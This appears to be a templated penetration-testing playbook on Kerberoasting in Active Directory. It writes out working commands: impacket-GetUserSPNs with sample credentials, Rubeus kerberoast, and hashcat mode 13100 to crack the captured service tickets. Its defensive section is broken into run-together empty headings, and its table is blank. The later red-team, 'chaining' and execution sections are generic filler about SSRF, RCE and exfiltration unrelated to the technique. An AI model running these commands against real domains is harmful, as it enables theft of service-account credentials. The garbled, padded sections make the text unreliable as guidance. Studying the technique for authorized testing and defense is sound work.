

# Kerberoasting Attack

## When to Use
- When you have obtained initial access to an Active Directory domain (valid user credentials or a compromised domain-joined machine).
- To compromise service accounts, which often have elevated privileges (like Domain Admin) and rarely changed passwords.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Identifying SPNs and Requesting Tickets (Linux/Impacket)

Using valid domain credentials from a Linux attack machine:

```bash
# Concept: Query AD for accounts with SPNs and request TGS tickets formatted for Hashcat impacket-GetUserSPNs target.local/low_priv_user:Password123! -request -outputfile kerberoast_hashes.txt -format hashcat
```

### Phase 2: Extracting Hashes from a Windows Host (Rubeus)

If executing directly from a compromised Windows workstation (where you are already authenticated as a domain user):

```powershell
# Rubeus.exe kerberoast /outfile:hashes.txt /format:hashcat
```

### Phase 3: Offline Password Cracking

Extract the hashes from the output file and run them through Hashcat.
Hashcat mode for Kerberoast (RC4) is `13100`. (If AES, mode is `19600` or `19700`).

```bash
# hashcat -m 13100 -a 0 kerberoast_hashes.txt rockyou.txt -O
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Strong Service Account Passwords**: **Monitor Kerberos Event ID 4769**: **Use Group Managed Service Accounts (gMSA)**: Key Concepts
| Concept | Description |
|---------|-------------|
| Service Principal Name (SPN) | |
| TGS Ticket Encryption | |


## Output Format
```
Kerberoasting Attack — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)

## References
- Impacket Docs: [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
- Mitre ATT&CK: [Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
